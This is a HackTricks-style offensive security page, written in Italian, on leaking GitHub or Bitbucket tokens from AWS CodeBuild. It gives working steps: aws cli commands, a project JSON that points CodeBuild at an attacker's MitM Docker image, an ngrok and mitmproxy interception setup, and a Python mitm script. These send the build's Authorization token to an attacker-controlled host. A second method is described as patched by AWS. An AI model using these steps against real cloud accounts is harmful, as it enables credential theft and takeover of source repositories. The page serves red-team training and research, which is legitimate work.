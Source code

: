 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recupera i token configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali sorgente configurate che potresti leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine docker specifica** per eseguire la build del progetto.

A questo scopo, potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del certificato SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e carica la tua immagine Docker MitM**
* Segui le istruzioni del repo per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **costruire l'immagine docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Potresti usare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai costruito l'immagine Docker, **caricala in un repo pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
* Imposta il progetto per utilizzare l'**immagine Docker precedentemente generata**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

* Come indicato nel **repo Github**, potresti usare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versione di mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 questo potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

*   Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche dalla aws cli con qualcosa come

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (penso venerdì). Quindi un attaccante non può più abusarne :)**
{% endhint %}

Un attaccante con **permessi elevati in un CodeBuild potrebbe leakare il token Github/Bitbucket** configurato o, se i permessi sono stati configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili ambientali **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Poi, cambiare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Poi, eseguire l'esempio base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dalla sua macchina, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
